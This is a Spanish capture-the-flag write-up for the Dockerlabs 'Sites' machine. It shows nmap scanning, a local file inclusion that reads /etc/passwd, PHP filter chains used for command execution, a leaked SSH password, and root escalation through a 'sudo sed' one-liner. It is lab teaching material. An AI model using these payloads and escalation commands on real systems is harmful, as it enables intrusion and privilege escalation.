





Hoy haremos la maquina Sites de [Dockerlabs](https://dockerlabs.es)



Autor: [ElPingüinoDeMario](https://www.youtube.com/@ElPinguinoDeMario)

Dificultad: Medio

Vulnerabilidad: LFI(Local File Inclusion)

Herramientas a utilizar: Nmap, Hydra

​						Opcional: Gobuster

Scripts necesarios: [Php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

# INTRUSIÓN 

Primero comenzamos haciendo un escaneo de nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 19:29 -03
Initiating ARP Ping Scan at 19:29
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 19:29, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 19:29
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 19:29, 1.69s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-08-05 19:29:42 -03 for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

No se encuentra nada interesante así que continuaremos entrando desde el navegador para ver que encontramos.

#### PUERTO 80:



Luego de estar leyendo la página veo que trata como de un "foro" el cual explica un poco de la vulnerabilidad LFI. Revisé el código fuente y no encontré nada pero por probar antes de usar feroxbuster/gobuster se me ocurrió entrar a un archivo que nombraba en la "publicación", el cual se llama "vulnerable.php". Resulta que si es un archivo y ya no nos hace falta usar feroxbuster/gobuster ; nos dice lo siguiente:



Nos dice que le demos un "page" o "username", viendo que la extensión del archivo es '.php' podemos probar poner '?page=' o '?username=' e introducir algo, si en "username" ponemos cualquier cosa nos da la bienvenida pero en "page" se encuentra lo interesante ya que podremos hacer un LFI, y leer archivos del sistema. Primero probé poner "../../../../../../../../../etc/passwd" como algo típico pero quedaba en blanco, así que probé con "/etc/passwd" y ya me mostró el archivo, por lo que confirmamos que trata de un LFI.

Intento conseguir el "id_rsa" de root o de alguno de los usuarios por probar ya que antes vimos que el puerto 22 de ssh estaba abierto, pero no funciona; así que se me ocurre utilizar los [wrapper](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) de php. Al probarlos vemos que funcionan por lo que significa que podemos ejecutar comandos ayudándonos con el script [Php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) simplemente poniendo 

```bash
python3 php_filter_chain_generator.py --chain "<?php system('comando que queramos'); ?>"
```

Estuve un rato probando en subir un archivo y enviarme una reverse shell pero finalmente la solución fue mucho mas simple ya que se encontraba un archivo llamado "archivitotraviesito" el cual tenia lo siguiente:


Por lo que ya tenemos la contraseña del ssh(el mensaje no nos dice el usuario pero como nosotros vimos el "/etc/passwd" y sabemos que hay uno llamado chocolate, pero para confirmar podríamos usar hydra o medusa dependiendo de los gustos). Nos conectamos por ssh con usuario "chocolate" y contraseña "lapasswordmasmolonadelacity" y listo, estamos dentro.

# ESCALADA DE PRIVILEGIOS

Ya estando dentro podemos ejecutar "sudo -l" para ver si tenemos suerte y podemos ejecutar algun binario como root. Por suerte encontramos lo siguiente:

```bash
chocolate@2e528d8225be:~$ sudo -l
Matching Defaults entries for chocolate on 2e528d8225be:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolate may run the following commands on 2e528d8225be:
    (ALL) NOPASSWD: /usr/bin/sed
chocolate@2e528d8225be:~$ 

```

luego de buscar en [GTFOBins](https://gtfobins.github.io/) vemos que podemos realizar una escalada mediante ese binario usando 

```bash
sudo sed -n '1e exec sh 1>&0' /etc/hosts
```

ejecutamos

```bash
bash
```

y listo. SOMOS ROOT



Opinión¿?:

Buena maquina para aprender un poco de LFI y muy entretenida


Por si te interesa:

[IG](https://instagram.com/macim0_)


Agradecimientos:

[messi](https://instagram.com/leomessi)